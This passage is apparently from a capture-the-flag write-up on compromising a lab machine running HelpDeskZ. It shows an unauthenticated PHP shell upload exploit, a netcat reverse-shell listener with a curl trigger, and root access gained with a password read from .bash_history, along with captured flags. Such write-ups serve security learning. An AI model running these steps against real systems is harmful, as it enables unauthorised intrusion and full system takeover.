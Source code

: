          ?>
         ```
      3. Enter CAPTCHA
      4. Click "Submit"
      5. Run the python exploit (__*40300.py*__):
         ```console
         $ python ./40300.py http://10.10.10.121/support/uploads/tickets/ shell.php

           Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
           found!
           http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php

         ```
   4. Set-up the reverse shell:
      - Local terminal:
        ```console
        $ nc -lvp 4444    
        ```
      - Another local terminal: 
        ```console
        $ curl http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
        ```
      - While inside the reverse shell:
        ```console
        $ python -c 'import pty; pty.spawn("/bin/bash")'

        $ id
         
          uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

        $ cd ~

        $ cat user.txt

          bb8a7b36bdce0c61ccebaa173ef946af

        ```

---

## PART 4 : PRIVILEGE ESCALATION (help -> root)

1. Check files in the __`/home/help`__ (__`~/`__) directory:
   ```console
   $ cat .bash_history

     ...omitted...
     su
     su
     rOOTmEoRdIE
     su
     ...omitted...
   
   $ su root

     Password: RootMeOrDie
   
   # id

     uid=0(root) gid=0(root) groups=0(root)
 
   # cat /root/root.txt

     b7fe6082dcdf0c1b1e02ab0d9daddb98

   ```
   __NOTE(S)__: